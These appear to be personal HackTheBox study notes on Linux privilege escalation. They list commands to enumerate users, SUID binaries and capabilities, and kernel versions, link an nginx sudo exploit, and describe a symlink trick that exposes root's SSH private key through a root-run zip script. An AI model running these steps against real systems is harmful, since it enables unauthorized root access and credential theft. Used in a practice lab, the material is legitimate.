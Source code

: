 ## Enumerate Users 

```
cat /etc/passwd | grep 'sh$'
```

Pagefile - `!/bin/sh`
Nginx/SUDO - [PoC](https://github.com/DylanGrl/nginx_sudo_privesc/tree/main)
## Find SETUID Binaries 

```
find / -perm -4000 2>/dev/null
```

## Find Capabilities

```
/usr/sbin/getcap -r / 2>/dev/null
```
- Use GTFOBins for exploits

## Exploiting Kernel Vulnerabilities

```
cat /etc/issue
```

```
uname -r
```

```
arch
```

Example searchsploit search 
```
`searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"`
```

## Symlinks
Scenario - after running `sudo -l`, discover .sh script that zips a bunch of files. 
![[HackTheBox/Linux/attachments/Pasted image 20250506193545.png]]
- Add symlink within this script
- Find a file we have write access to in the `/var/components/profile` dir and make a copy of it
- Give root's id_rsa key the name of this file
Move the original file
```
mv cmdsubsys.log cmdsubsys.log~
```

Give root's ssh key this file's name
```
ln -s /root/.ssh/id_rsa cmdsubsys.log
```
